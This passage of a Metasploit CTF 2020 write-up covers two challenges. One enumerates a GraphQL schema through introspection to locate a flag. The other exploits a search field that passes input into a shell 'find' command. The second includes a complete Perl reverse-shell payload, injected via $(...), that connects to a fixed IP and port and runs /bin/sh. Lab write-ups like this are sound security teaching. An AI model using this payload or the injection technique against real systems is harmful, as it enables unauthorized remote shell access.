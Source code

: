 A common misconfiguration to check is if introspection is enabled on the endpoint.

When we supply an introspection payload (you can use the ones from [payloadallthethings repo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection)) it works and we get the schema.

{{< image src="/img/metasploitctf2020/port8202_3.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

To understand the result, we can easily visualize this at https://apis.guru/graphql-voyager/

{{< image src="/img/metasploitctf2020/port8202_2.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

With this structure we can easily make our queries.

{{< image src="/img/metasploitctf2020/port8202_4.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

The below query gives the location of the flag.

{{< image src="/img/metasploitctf2020/port8202_5.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

**Flag**:

{{< image src="/img/metasploitctf2020/queen_of_spades.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

### 2 of Hearts

On port 9000, there's another website similar to the one port 9001 but this one has a different way in which it handles searches. When we search using
just a single character a, the first result is interesting as it looks like a folder in a terminal.

{{< image src="/img/metasploitctf2020/port9000.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

This could mean our input is being used to construct a shell command. We can try getting a reverse shell using this reverse shell payload:
```perl
$(perl -e 'use Socket;$i="172.15.18.100";$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};')
```

We successfully get a reverse shell.

{{< image src="/img/metasploitctf2020/port9000_1.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

The vulnerable code is using the find command:

{{< image src="/img/metasploitctf2020/port9000_2.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

**Flag**:

{{< image src="/img/metasploitctf2020/2_of_hearts.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}
